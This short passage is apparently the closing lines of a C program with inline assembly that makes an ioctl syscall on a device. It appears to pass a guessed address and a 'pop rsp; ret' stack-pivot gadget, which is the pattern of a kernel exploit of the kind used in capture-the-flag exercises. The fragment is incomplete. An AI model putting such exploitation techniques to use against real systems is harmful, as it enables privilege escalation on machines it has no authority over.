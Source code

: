 ```c
            "mov r9, poprsp_ret;"
            "mov r8, guess;"
            "mov rax, 0x10;"
            "mov rcx, 0x12345678;"
            "mov rdx, guess;"
            "mov rsi, 0x1bf52;"
            "mov rdi, dev;"
            "syscall;"
            );
    return 0;
}
```
